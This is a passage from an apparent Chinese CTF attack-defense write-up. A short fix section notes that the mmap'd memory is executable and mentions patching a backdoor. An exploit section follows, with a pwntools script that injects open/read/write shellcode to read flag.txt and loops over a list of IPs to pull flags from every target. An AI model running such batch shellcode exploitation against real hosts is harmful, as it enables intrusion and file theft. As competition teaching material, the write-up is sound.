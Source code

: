 ### <a class="reference-link" name="%E4%BF%AE%E5%A4%8D"></a>修复

一个是mmap出的内存空间不可执行。 再将后门patch掉，不过后门不修应该也没关系，反正读不到flag。

```
mmap_addr = (__int64 (__fastcall *)(_QWORD))(int)mmap((void *)0x1000, v0, 6, 34, 0, 0LL);
```

### <a class="reference-link" name="exp"></a>exp

```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
sa = lambda s,n : sh.sendafter(s,n)
sla = lambda s,n : sh.sendlineafter(s,n)
sl = lambda s : sh.sendline(s)
sd = lambda s : sh.send(s)
rc = lambda n : sh.recv(n)
ru = lambda s : sh.recvuntil(s)
ti = lambda : sh.interactive()
context.arch = 'amd64'


shellcode = shellcraft.open('flag.txt')
shellcode += shellcraft.read('rax','rsp',0x60)
shellcode += shellcraft.write(1,'rsp',0x60)
payload = asm(shellcode)
#sh = remote('10.12.153.18',9999)
def write_shell():
    return 'op:2\n+:0\nn:400\n\n'
def run():
    return 'op:4\n\n'
#gdb.attach(sh)
def pwn():
    sla('code&gt; ',write_shell())
    sa('ready?',payload)
    sla('code&gt; ',run())


#run_shell(sh,'./backdoor')

with open('ip.txt','r') as f:
    ips = f.readlines()
print ips

f = open('flag_2.txt','w+')
for i in ips:
    ip= i.strip('\r\n')
    print ip
    sh = remote(ip,9999)

    try:
        pwn()
        flag = ru('`}`')[-38:]
        f.write(flag+'\n')
        print '__flag__:'+flag
    except:
        print 'error'
f.close()
```
